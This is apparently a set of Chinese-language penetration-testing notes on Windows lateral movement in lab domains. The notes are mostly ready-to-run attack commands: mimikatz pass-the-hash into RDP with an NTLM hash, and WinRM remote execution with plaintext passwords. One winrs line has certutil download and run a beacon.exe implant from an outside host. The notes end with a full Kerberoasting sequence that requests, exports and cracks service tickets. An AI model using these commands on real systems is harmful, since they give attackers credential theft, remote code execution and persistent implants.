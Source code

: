 

#### RDP

~~~
明文连接：
mstsc /console /v:192.168.3.32 /admin
HASH连接：
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:administrator /domain:192.168.52.143 /ntlm:069f3f91c44c631880d58af546516f45 "/run:mstsc /restrictedadmin"
~~~









#### WINRM

~~~
RM服务
RS命令

Windows 2008 以上版本默认自动状态，Windows Vista/win7上必须手动启动；
Windows 2012之后的版本默认允许远程任意主机来管理

攻击机开启：
winrm quickconfig -q
winrm set winrm/config/Client @{TrustedHosts="*"}
1.探针可用：
cs 内置端口扫描5985
powershell Get-WmiObject -Class win32_service | Where-Object {$_.name -like "WinRM"}
2.连接执行：
winrs -r:192.168.52.138 -u:god\administrator -p:A@2019gaokaowar whoami
winrs -r:192.168.3.21 -u:192.168.3.21\administrator -p:Admin12345 whoami
3.上线CS&MSF:
winrs -r:192.168.3.32 -u:192.168.3.32\administrator -p:admin!@#45 "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/beacon.exe beacon.exe & beacon.exe"


~~~

[![p9942FK.png](https://s1.ax1x.com/2023/04/16/p9942FK.png)](https://imgse.com/i/p9942FK)



#### SPN扫描（非横向移动）

~~~
1.扫描：
powershell setspn -T god.org -q */*
powershell setspn -T god.org -q */* | findstr "MSSQL"
2.检测：
Rubeus kerberoast
3.请求：（要产生票据文件）
powershell Add-Type -AssemblyName System.IdentityModel
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/owa.god.org:1433"
mimikatz kerberos::ask /target:MSSQLSvc/SqlServer.god.org:1433
4.导出：
mimikatz kerberos::list /export
5.破解：
python tgsrepcrack.py pass.txt "1-40a00000-jack@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi"
5.重写：
https://www.freebuf.com/articles/system/174967.html
~~~
